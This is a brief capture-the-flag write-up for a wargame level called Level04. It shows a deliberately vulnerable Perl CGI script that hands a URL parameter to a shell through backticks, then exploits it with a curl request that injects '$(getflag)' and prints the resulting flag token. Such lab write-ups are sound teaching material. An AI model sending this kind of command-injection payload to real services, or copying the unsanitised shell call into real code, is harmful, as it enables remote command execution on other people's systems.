 ### Level04

On our HOME we can see a pearl script:
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));`

The script takes a parameter and then prints it to the screen. We are also told that the result is accessible on localhost:4747.

To get the flag, all we have to do is run a command of our choice through the script. 

curl localhost:4747?x='$(getflag)'`

Here we use a subshell to make the script run the getflag command. So we get the token :

`ne2searoevaevoem4ov4ar8ap`

